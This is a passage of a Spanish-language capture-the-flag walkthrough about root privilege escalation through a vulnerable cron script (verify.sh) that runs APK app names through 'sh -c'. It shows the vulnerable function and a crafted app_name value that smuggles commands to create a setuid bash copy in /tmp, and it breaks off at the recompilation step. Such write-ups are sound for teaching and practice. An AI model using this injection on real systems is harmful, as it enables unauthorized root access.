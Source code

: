 ### Análisis de procesos

```bash
ps auxww
```

Observamos múltiples procesos `docker-proxy` y exploramos `/opt/`:

```bash
ls /opt/
# containerd  mdm
```

### Análisis del directorio MDM

```bash
ls /opt/mdm/
# apk_bin  verify.sh
```

### Análisis del script verify.sh

El script se ejecuta cada minuto como root y procesa archivos APK en `/opt/mdm/apk_bin/`.

**Función vulnerable (app_check)**:
```bash
app_check() {                                    
    APP_NAME=$(grep -oPm1 "(?<=<string name=\"app_name\">)[^<]+" "$1/res/values/strings.xml") 
    echo $APP_NAME
    if [[ $APP_NAME == *"Catch"* ]]; then
        echo -n $APP_NAME|xargs -I {} sh -c 'mkdir {}'
        mv "$3/$APK_NAME" "$2/$APP_NAME/$4"
    else
        echo "[!] App doesn't belong to Catch Global"
        cleanup                      
        exit
    fi
}  
```

### Explotación de la inyección de comandos

#### Descompilación de la APK original

```bash
java -jar apktool_2.6.1.jar d catchv1.0.apk -o decomp
```

#### Modificación del nombre de la aplicación

Editamos `decomp/res/values/strings.xml`:
```xml
<string name="app_name">Catch$(cp /bin/bash /tmp/test; chmod 4777 /tmp/test)</string>
```

#### Recompilación de la APK
